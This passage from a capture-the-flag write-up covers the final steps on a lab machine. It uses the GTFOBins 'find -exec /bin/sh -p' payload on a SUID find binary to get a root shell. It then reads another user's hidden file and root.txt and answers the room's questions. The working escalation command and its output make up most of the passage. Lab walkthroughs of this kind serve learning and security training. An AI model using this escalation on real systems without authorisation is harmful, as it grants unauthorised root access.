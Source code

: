 So, using the payload in [GTFOBins](https://gtfobins.github.io/gtfobins/find/) we are able to get root access, as it will set our effective user id (EUID) to root:

```bash
basterd@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1001(basterd) gid=1001(basterd) euid=0(root) groups=1001(basterd)
```

```bash
# ls /home/  
basterd  stoner
# ls -a /home/stoner
.  ..  .nano  .secret
# cat /home/stoner/.secret
You made it till here, well done.
```

### 3 What did you exploit to get the privileged user?
```
find
```

### 4 root.txt

```bash
# cat /root/root.txt
It wasn't that hard, was it?
```
